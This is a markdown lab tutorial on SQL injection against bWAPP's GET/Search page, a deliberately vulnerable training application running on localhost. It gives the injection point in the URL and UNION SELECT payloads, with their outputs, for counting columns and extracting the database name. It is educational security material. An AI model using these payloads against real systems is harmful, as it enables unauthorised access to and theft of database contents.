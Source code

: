 # bWAPP SQL Injection GET/Search - Detailed Guide

## Introduction
This document provides a step-by-step guide on exploiting SQL Injection vulnerabilities in the **bWAPP** website's **SQL Injection GET/Search** page. We will construct SQL queries and append them to the search URL in the browser to extract information from the database.

## Understanding SQL Injection
SQL Injection occurs when an application improperly constructs SQL queries, allowing attackers to manipulate database queries. By injecting SQL syntax into input fields or URLs, attackers can retrieve, modify, or delete data.

## Purpose of `'` and `--`
- **`'` (Single Quote)**: Used to close the original SQL string so that an attacker can append a custom SQL query.
- **`--` (Double Dash)**: Marks the rest of the line as a comment, effectively removing unintended SQL syntax and preventing errors.

## Executing SQL Injection via the URL
Each SQL injection attempt should be inserted **after**:
```
http://localhost/bWAPP/sqli_1.php?title=spiderman'
```
and **before**:
```
+&action=search
```

### 1. Find the Number of Columns
**Payload:**
```
UNION SELECT 1,2,3,4,5,6 --
```
**Output:**
```
2   3   5   4   Link
```
**Explanation:**
This identifies how many columns exist in the database query by ensuring the query executes without errors. The output shows which columns are visible.

### 2. Find the Database Name
**Payload:**
```
UNION SELECT 1,2,database(),4,5,6 --
```
**Output:**
```
2   bwapp   5   4   Link
```
**Explanation:**
The `database()` function retrieves the name of the currently used database, which in this case is `bwapp`.
